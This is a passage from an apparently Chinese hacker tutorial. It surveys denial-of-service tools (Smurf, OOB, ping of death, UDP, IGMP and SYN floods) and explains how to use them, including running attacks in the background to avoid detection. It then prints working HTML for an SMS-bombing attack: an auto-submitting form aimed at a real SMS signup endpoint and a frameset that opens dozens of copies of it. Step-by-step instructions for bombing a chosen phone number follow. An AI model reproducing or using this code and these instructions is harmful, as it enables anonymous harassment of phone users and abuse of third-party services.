例如，现在 A 主机要发动对 B 主机的 SMURF 攻击。A 通过向某个网络的广播地址发送 ICMP ECHO 包，这些 ICMP 包的源地址即被伪造为 B 主机的 IP 地址。当这个广播地址网段上的所有活动主机接收到该 ICMP 包时，将回送 ICMP ECHO REPLY 包。由于 ICMP ECHO 包的源地址为 B 主机，所以如果能收到该广播包的机器有 500 台，则 B 主机会接收到 500 个 ICMP ECHO REPLY 包！常见 Smurf 攻击工具：Smurf.exe、winsmurf 等等。

Smurf.exe 可以连接至代理服务器进行攻击，如图1，能够进行 IP 广播攻击（程序内预设多组 IP 位置）和采用 ICMP 进行泛滥攻击，受攻击的傀儡电脑会自动把封包重复地传送到其他服务器，令服务器瘫痪。还可以自动侦测最大传送速度。



### 2. “OOB” 攻击

“OOB”攻击也是 ICMP 攻击的一种。这是一种古老的攻击方法，只对 Win95、Win98 第一版、WinNT 有效，它可向某一 IP 地址发送“OOB”（OUT OF BAND）数据，并攻击 139 端口（NETBIOS）。



如果攻击者进行端口监听的话，还可攻击其他端口。当被攻击的 Win9X 收到大量的“OOB”数据后，无法对数据进行处理，导致出现 Internet 连接中断或蓝屏死机等现象。最著名的“OOB”攻击软件有：NTHunter。

NTHunter 是一个攻击 WIN NT 的工具，如图2，利用重复的 DOS 攻击和 OOB 攻击，导致 WIN NT 服务器崩溃。

### 3. Ping 攻击

我们知道 ping 是属于 ICMP 协议的，所以 Ping 攻击当然还是 ICMP 攻击的一种。



PING 攻击一般有两种，一种 ping of Death：根据 TCP/IP 的规范，一个包的长度最大为 65536 字节，利用一些系统不能接受超大的 IP 包或需要资源处理这一特性。如在 Linux 下输入 `ping -t 66510 IP`（未打补丁的 Win95/98 机器），机器就会瘫痪。第二种 Ping Flood 攻击，……多个进程在短时间内不停地发送大量的 PING 包，从而导致被攻击目标无法正常工作。常见 ping 攻击程序：FakePing、DeathPing 等等。

FakePing 结合 Ping of Death 和两种攻击方式，如图 3，使用多线程、多个数据包、IP 碎片等对同一个 IP 进行洪水攻击！如果你速度够快，对方可能在短时间内网络瘫痪。运行环境：Windows NT/2000/XP。

在第四层——传输层，处于 IP 协议的上一层。Windows 98 等系统没有正确处理部分 UDP 通信，攻击者可以发送大量伪造的碎片 UDP 包给 Windows 98 系统，可导致系统消耗大量资源而使系统锁死。

远程攻击者可以利用这个漏洞对系统进行 UDP 攻击，原理是发送大量巨大的 UDP 数据包进行拒绝服务攻击，或对采用 UDP 协议通信的服务造成干扰。常见的 UDP 攻击工具有：UDPFlood、IPBomb。

## 4. IGMP 攻击工具

IGMP 协议（Internet Group Management Protocol），由于 IGMP 是一种类似 ICMP（PING 报文）的无连接协议，所以在向服务器连接时不需要指定连接的端口，只需要指定 IP 地址即可。由于 WIN98/WIN 2000 等系统不能很好地处理过大或者其它异常的 IGMP 数据包，很容易出现系统崩溃的情况。常见的 IGMP 攻击工具有：Tigers.exe、IPHacker.exe。

Tigers.exe 国产傻瓜式攻击工具，如图 4。本软件利用 IGMP 协议攻击目标计算机，轻则使对方无法登录网络，重则导致系统崩溃，可调节攻击力度，支持多线程攻击。







## 5. UDP 攻击

UDP 协议的全称是用户数据报，在网络中它与 TCP 协议一样用于处理数据包。在 OSI 模型中，UDPFlood 是 UDP 包发送工具，如图 5，它可以发送 UDP 包到指定的 IP 和端口，发送方式有随机、自定义文本和从文件载入。使用时只要填入目标地址和攻击端口，攻击速度可以根据你的网速调节。

IPBomb 不但可以进行 UDP 攻击，如图 6，还可以进行 ICMP 和 IGMP 攻击，可以说是集多种攻击功能于一身。使用时如果 ICMP 和 UDP 交替攻击，效果比单一的好；把攻击次数设为 0，可以一直攻击；可以用 Alt+A 把程序切换到后台运行，免得被发现。

SYN 潜伏攻击者是一个图形界面的攻击工具，如图 7，具有隐藏攻击的功能。由于 SYN 攻击要伪造源攻击地址，一般只能在 Win NT/2000/2003 上使用，不能在 Win98 下使用。这个工具威力很大，如果没有防火墙等过滤措施的话，用它攻击目标的 80 端口能把一个中型网站的 WWW 服务瘫痪，浏览不了网页。

## 6. SYNflood 攻击

Synflood 攻击也是一种老牌的攻击方法。但是老并不代表过时，随着技术的不断进步，SYN 攻击也不断地被改进和被更多黑客所使用。其原理简单介绍如下：当一台黑客机器 A 要与另外一台 ISP 的主机 B 建立连接时，它的通信方式是先发一个 SYN 包告诉对方主机 B 说“我要和你通信了”，当 B 收到时，就回复一个 ACK/SYN 确认请求包给 A 主机。如果 A 是合法地址，就会再回复一个 ACK 包给 B 主机，然后两台主机就可以建立一个通信渠道了。可是黑客机器 A 发出的包的源地址是一个虚假的 IP 地址，或者可以说是实际上不存在的一个地址，ISP 主机 B 发出的那个 ACK/SYN 包当然就找不到目标地址了。如果这个 ACK/SYN 包一直没有找到目标地址，那么也就是目标主机无法获得对方回复的 ACK 包。而在缺省超时的时间范围以内，主机的一部分资源要花在等待这个 ACK 包的响应上。假如短时间内主机 A 接到大量来自虚假 IP 地址的 SYN 包，它就要占用大量的资源来处理这些错误的等待，最后的结果就是系统资源耗尽以至瘫痪。



Xdos.exe 则是一个 DOS 界面的 SYN 攻击工具，如图 8，运行平台也是 WinNT/2000/2003 上，它的威力极大，有人曾经用它把一个国内著名黑客站点给 DOS 了，而且只开了一个进程，其威力可想而知！

IP 常见的攻击介绍完了，还有其它类型的 ARP 攻击我们在以后会提到。但是现在网络安全已经日益受到重视，国内许多主干路由器及单位的路由器上都对一些常见的 IP 攻击数据包作了过滤，所以上面介绍的一些攻击数据包在 Internet 上可能会被过滤掉，到达不了目的地，但在局域网里还是比较容易攻击成功的。

要防御这些攻击，除了要及时打上系统漏洞的补丁，还可以安装防火墙，设置过滤规则来进行防御。但如果遇到的是“多对一” D.D.O.S 攻击，一般中小型网络是比较难抵御的。

SYNflood 攻击工具有很多，攻击效果比较好的有：SYN 潜伏攻击者、Xdos.exe 等等。



#### 三、手机短信轰炸

现在网上有许多网站提供了各种各样的短信服务，当然都是要收费的，但是这些短信网站的短信发送验证网页不少都存在漏洞，而利用这些漏洞可以制作出手机短消息轰炸工具，轰炸指定的手机。而一般的手机只能储存三四十条短信息，手机用户的 SIM 卡或者 STK 卡会塞满没用的短信息！下面我们来看十几个手机短消息轰炸工具。

### 1. 手机短信 HTML 炸弹

手机短信 HTML 炸弹其实就是一个能发送短信网页，它由两个网页组成。第一个网页 bcode.htm 是用来提交发送请求的，第二个网页 bomb.htm 的作用是用来同时开启十几个第一个网页的窗口，以达到发送多个请求进行轰炸的目的。我们具体来看看第一个网页的源代码：

```html
<html>
<head>
正在轰炸目标：
<form action="http://smsknl.163.com/smsuser/preRegist.jsp" method="POST">
  <input value="Mobile Phone Number" type="hidden" name="userPhone" size=20 class=pl>
  <script>
    this.document.forms[0].submit();
  </script>
</form>
</body>
</html>
```

它是绕过验证直接向网页短信发送页面提交请求来发送短信；然后再看看第二个网页源代码：

```html
<frameset cols="570,210" rows="*" border="0" framespacing="0">
<frameset cols="232,111" rows="*" border="0" framespacing="0">
<frameset cols="109,117" rows="*" border="0" framespacing="0">
<frameset rows="122,373" cols="*">
  <frame src="./bcode.htm">
  <frameset rows="124,124">
    <frame src="./bcode.htm">
    <frame src="./bcode.htm">
  </frameset>
</frameset>
</frameset>
<frameset rows="121,374" cols="*">
  <frame src="./bcode.htm">
  <frameset rows="124,124">
    <frame src="./bcode.htm">
    <frame src="./bcode.htm">
  </frameset>
</frameset>
...
```

在这个网页里它使用几十个框架都是指向 bcode.htm 网页，也就是说如果打开它就是打开了几十个 bcode.htm 网页。这个短信炸弹虽然很简单，但思路很明确也很实用。使用的时候要注意首先把两个网页解压缩到同一目录下，然后需要关闭浏览器对 Cookies 的支持，接着用记事本修改 bcode.htm 中的“Mobile Phone Number”为要炸的 11 位手机号码，接着双击 bomb.htm 执行就可以了！

### 2. SMSFoold.exe

SMSFoold（短消息攻击器）是结合各大短信网站普遍都有漏洞制作而成的，基本轰炸原理还是与上面的手机短信 HTML 炸弹差不多，只是通过程序来提交请求和利用的网站不同而已。此程序可以运行于 WIN98/2000 下，能有效地对手机进行短消息攻击。具有很强的攻击性，此软件危害很大，请朋友们慎用。打开攻击器，如图 1，为了防止滥用，这个软件限定了最大发送为“4”次。

在“攻击手机号码”里填入你要攻击的手机号码：139xxxxxxx，然后按“发送”键，攻击器就开始连接发送的网站，在下面状态栏目中会具体显示连接状态：“正在连接主机……，正在发送攻击信息……”，如果中途想停止发送可以按“停止”键，最后当发送成功时攻击器会弹出一个提示框：“消息全部发送完毕！”，如图 2，这样攻击短信就发出去了。




图 1

### 3. SmsBomber.exe

SmsBomber.exe 收集了许多免费注册短信的网站来当作它的炸弹发送基地，这个软件很酷，它可以免费使用，还具有以下特点：

- 1. 火力强劲，支持多种轰炸方式，没有数量限制；
- 2. 软件能够支持自动升级，不断更新发送网站列表；
- 3. 使用简单，只需输入对方的手机号码便可开始轰炸；
- 4. 隐形轰炸，收到的短信是莫名其妙的验证信息，不会暴露发送者身份。

打开 SmsBomber.exe，如图 3，只要输入手机号码就可以开始攻击，它使用多线程轰炸。攻击开始一秒内基本上能发送出去，到目标主机 5 秒左右。其中的三个按钮分别表示：

- 1. 一次小规模轰炸（几条短信）；
- 2. 每 8 分钟轰炸一次；
- 3. 一次大规模轰炸（几十条短信）。



图 3

> 注意：如果滥用此软件会对他人造成不便，所以使用时请谨慎考虑！

> 提示：由于这类工具大多是利用网站漏洞发送短信的，上面介绍的几个短信攻击工具在写此文时经我们测试是可以使用的，但谁也不知道这些网站说不定什么时候可能会停止短信服务或者补上了漏洞，有些工具可能会失效！



图 2

对方的手机会收到一条条莫名其妙的短信：“你的确认号是 18xxxxx”，而且他不会知道是谁发的，因为攻击信息的发件人信息里显示的是系统。

#### 四、网页炸弹

